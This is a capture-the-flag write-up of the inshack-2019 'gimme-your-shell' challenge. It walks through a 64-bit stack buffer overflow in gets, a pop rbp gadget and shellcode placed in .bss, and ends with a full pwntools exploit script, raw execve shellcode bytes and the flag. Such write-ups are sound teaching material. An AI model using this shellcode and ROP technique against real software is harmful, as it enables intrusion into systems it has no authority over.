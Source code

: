 ```yaml
---
title: "Give Me Your Shell"
date: 2019-05-06T18:39:04+02:00
categories:
- write-ups
- inshack-2019
tags:
- pwn
- reverse
keywords:
- pwn
- reverse
coverImage: /images/inshack-2019/bg.png
coverSize: full
coverMeta: in
autoThumbnailImage: false
summary : "Write-up about the challenge gimme-your-shell from the inshack-2019 CTF."
---
```


|  Event | Challenge | Category | Points | Solves |
|:----------:|:------------:|:------------:|:------------:|:------------:|
| inshack-2019 |  gimme-your-shell  |  pwn  | 50 |  67  |

# TL;DR

This is a remote buffer overflow challenge, there is no protection on the binary but ASLR is enable on the remote server. I redirected the execution flow to write my shellcode to a controled area, then jump to it and execute it.

# Getting informations

First I looked at the protections on the binary :

{{< image classes="fancybox fig-100 center" src="/images/inshack-2019/protections.png" thumbnail="/images/inshack-2019/protections.png" >}}

No protections is enabled but it's a remote challenge and we can assume that the ASLR is enabled on the remote server. Let keep that in mind and try to run the binary. 

{{< image classes="fancybox fig-100" src="/images/inshack-2019/crash.png" thumbnail="/images/inshack-2019/crash.png" >}}

The program crash when the input is to big. The binary is not stripped which means that we can find symbol inside the binary by opening it with ghidra we can easily spot the {{< hl-text orange >}}vuln{{< /hl-text >}} function which use a vulnerable function to get input from the user. Here {{< hl-text orange >}}gets{{< /hl-text >}} will read the user input from STDIN and the result will be stored in {{< hl-text orange >}}local_18{{< /hl-text >}} but there is no check on the size of the user input, we have our buffer overflow.

{{< image classes="fancybox fig-100" src="/images/inshack-2019/ghidra.png" thumbnail="/images/inshack-2019/ghidra.png" >}}

# Road to the exploit

Since ASLR is randomizing the stack addresses we can't find the address of our payload and jump to it. We could try to leak an address of libc and perform a ret2libc but I didn't use this technique because it's an 64 bits binary and there is no easy way to control the register {{< hl-text orange >}}rdi{{< /hl-text >}} which is used to pass the first arguments. So without a gadget to properly set {{< hl-text orange >}}rdi{{< /hl-text >}} we can't make a call to {{< hl-text orange >}}puts{{< /hl-text >}} with the address of {{< hl-text orange >}}gets{{< /hl-text >}} as parameter to leak it's address. But remember the NX bit is not set, here is a definition from wikipedia :

{{< blockquote >}}
An operating system with support for the NX bit may mark certain areas of memory as non-executable. The processor will then refuse to execute any code residing in these areas of memory. The general technique, known as executable space protection, is used to prevent certain types of malicious software from taking over computers by inserting their code into another program's data storage area and running their own code from within this section; one class of such attacks is known as the buffer overflow attack. 
{{< /blockquote >}}

So if it's disable we can write data and then execute what we write if it's a valid set of instructions. Now there are 2 problems to solve, where to write the shellcode and how to jump there. 

We can see from the code in ghidra that the parameter of the {{< hl-text orange >}}gets{{< /hl-text >}} function depend of {{< hl-text orange >}}rdp{{< /hl-text >}}

{{< codeblock lang="assembly"  >}}
00400570 48 8d 45 f0     LEA        RAX=>local_18,[RBP + -0x10]
00400574 48 89 c7        MOV        RDI,RAX
00400577 e8 d4 fe        CALL       gets
{{< /codeblock >}}

By chance there is a [gadget](https://thinkloveshare.com/en/hacking/pwn_3of4_saperliropette/) which allow us to set a crafted value in {{< hl-text orange >}}rbp{{< /hl-text >}} :

{{< codeblock lang="assembly"  >}}
ROPgadget --binary weak
[...]
0x0000000000400522 : pop rbp ; ret
[...]
{{< /codeblock >}}

You can use the readelf command to list sections of the binary and their differents rights, we can see that the {{< hl-text orange >}}.bss{{< /hl-text >}} section has write (W) right, it's a perfect candidate to host our shellcode.
{{< codeblock lang="assembly"  >}}
readelf -S weak
[...]
[25] .bss              NOBITS           0000000000600a18  00000a18
    0000000000000010  0000000000000000  WA       0     0     8
[...]
{{< /codeblock >}}


We also have to see where the program crash, I use gdb with the peda extention which allow me to create patterns and search for them : 

{{< codeblock lang="assembly"  >}}
gdb ./weak
gdb-peda$ pattern_create 30
'AAA%AAsAABAA$AAnAACAA-AA(AADAA'
gdb-peda$ r 
{{< /codeblock >}}

{{< image classes="fancybox fig-100" src="/images/inshack-2019/crash-peda.png" thumbnail="/images/inshack-2019/crash-peda.png" >}}

Perfect we can control {{< hl-text orange >}}rip{{< /hl-text >}} which is the instuction pointer at offset 24.

# Building the exploit

So here is the plan : 

- overflow the program until rip
- use the previous gadget to set rbp with a controlled value in bss
- ret to the code in vuln to make a second call to get
- send our shellcode which will be in bss
- jump to our controlled area in bss

{{< codeblock "exploit.py" "python" >}}
from pwn import *

s = process("./connect.sh", shell=True)

shell = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

bss = 0x0600b00                                         # bss WX permissions
offset = 24

stage1 = ""
stage1 += "A" * offset
stage1 += p64(0x0400522)                                # pop rbp
stage1 += p64(bss + 0x10)
stage1 += p64(0x0400570)                                # back to vuln

print s.recvuntil("president.\n").strip()

s.sendline(stage1)

print s.recvuntil("remember !\n").strip()

stage2 = ""
stage2 += "A" * offset
stage2 += p64(0x0600b00 +32)                            # 32 is the lenght of the offset plus the
stage2 += shell                                         #lenght of the 0x0600b00 address

s.sendline(stage2)

print s.recvuntil("remember !\n").strip()
s.interactive()
{{< /codeblock >}}

{{< codeblock "connect.sh" "bash"  >}}
ssh -i ../key.pub -p 2225 user@gimme-your-shell.ctf.insecurity-insa.fr
{{< /codeblock >}}

# Flag

{{< hl-text red >}}INSA{YoU_h4v3_a_b34uT1fUL_Sh33lc0d3}{{< /hl-text >}} 





